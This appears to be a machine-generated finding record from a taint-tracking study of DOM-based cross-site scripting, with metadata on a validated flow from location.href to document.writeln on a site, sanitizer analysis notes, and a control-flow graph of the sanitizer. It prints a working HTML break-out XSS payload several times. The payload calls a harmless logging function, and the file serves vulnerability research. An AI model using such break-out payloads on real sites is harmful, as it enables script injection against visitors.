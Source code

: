 // Finding: b687e505-3f1f-4c4d-ba7c-7d370203294e
// Finding.url: https://example144.com/registrar/academics/academic-calendar.php##"></iframe></style></script></object></embed></textarea><script>taintfoxLog('900675e21f174b108f6d3798740f4d91')</script><!--/*
// Finding.parentloc: https://example144.com/registrar/academics/academic-calendar.php##"></iframe></style></script></object></embed></textarea><script>taintfoxLog('900675e21f174b108f6d3798740f4d91')</script><!--/*
// Finding.domain: example144.com
// Finding.base_domain: example144.com
// Finding.source: location.href
// Finding.sink: document.writeln
// Sanitizer.score: 1
// Sanitizer.name: formatFileName
// Sanitizer.location: https://example144.com/registrar/academics/academic-calendar.php##"></iframe></style></script></object></embed></textarea><script>taintfoxLog('900675e21f174b108f6d3798740f4d91')</script><!--/* - <anonymous>:253:9
// Finding.begin: 1322
// Finding.end: 1330
// Finding.original_uuid: 05d937d7-01ec-477f-ae47-800717ad2a66
// Finding.TwentyFiveMillionFlowsId: -1012008139
// Finding.script: https://example144.com/registrar/academics/academic-calendar.php##"></iframe></style></script></object></embed></textarea><script>taintfoxLog('900675e21f174b108f6d3798740f4d91')</script><!--/*
// Finding.line: 269
// Exploit.uuid: 900675e2-1f17-4b10-8f6d-3798740f4d91
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 35
// Exploit.replace_begin_url: 57
// Exploit.replace_end_url: 57
// Exploit.replace_begin_param: 128
// Exploit.replace_end_param: 128
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: true
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: true
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 7148143
// DepGraph.sanitizer_hash: 1678887314
// Removed LR concats 
// Non Finite Regex with function on rhs:  replace((^|\s)[a-z]/g: 1, s: 0, u: 0, m: 0, i: 0 [escapes(), function_rhs: true], 'function(f){return f.toUpperCase();}') - Left hand side has to be a range 
// Approximated Implementation for:  replace((^|\s)[a-z]/g: 1, s: 0, u: 0, m: 0, i: 0 [escapes(), function_rhs: true], 'function(f){return f.toUpperCase();}') - Left hand side has to be a range 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="."];
n2 [shape=box, label="Lit:  "];
n3 [shape=ellipse, label="."];
n4 [shape=box, label="Lit:  "];
n5 [shape=ellipse, label="preg_replace"];
n6 [shape=box, label="RegExp: /_|-/"];
n7 [shape=box, label="Lit:  "];
n8 [shape=box, label="Var: x"];
n9 [shape=ellipse, label="preg_replace"];
n10 [shape=box, label="RegExp: /(^|\s)[a-z]/"];
n11 [shape=box, label="Lit: "];
n12 [shape=box, label="Var: x"];
n13 [shape=box, label="Var: x"];
n14 [shape=doubleoctagon, label="Return: x"];
n1 -> n0;
n1 -> n2;
n3 -> n1;
n3 -> n4;
n8 -> n3;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n12 -> n5;
n9 -> n10;
n9 -> n11;
n9 -> n12;
n13 -> n9;
n14 -> n13;
}
